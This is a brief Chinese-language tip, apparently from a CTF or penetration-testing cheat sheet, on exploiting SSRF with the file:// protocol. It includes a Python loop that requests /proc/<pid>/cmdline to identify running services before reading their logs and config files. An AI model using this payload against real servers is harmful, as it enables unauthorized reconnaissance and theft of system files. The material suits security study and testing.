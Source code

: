 - 遇到SSRF，使用file协议读文件时，首先考虑读取cmdline，可以快速定位服务器开启的服务：

  ```
  for i in range(1, 30):
      print(i)
      pl = 'file:///proc/%d/cmdline' % i
      r = ssrf(pl)
      print(r)
  ```

  知道运行了什么服务后，再去读取指定服务的log、config等文件。


